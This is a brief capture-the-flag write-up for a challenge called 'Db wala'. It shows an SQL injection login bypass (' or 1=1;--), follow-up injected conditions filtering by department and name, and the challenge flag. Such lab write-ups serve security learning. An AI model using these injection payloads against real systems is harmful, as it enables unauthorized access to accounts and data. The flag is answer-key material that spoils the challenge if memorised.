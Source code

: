 # Db wala

login using : ' or 1=1;--

no pw required tbh.

- then we do basic sql queries according to the requirements : 

`' or department='Management'--`

`or (department='Management' and name='Kiwi')--`


# Flag : citadel{wh3n_w1ll_y0u_f1nd_0u7_1f_175_5ql_0r_53qu3l?}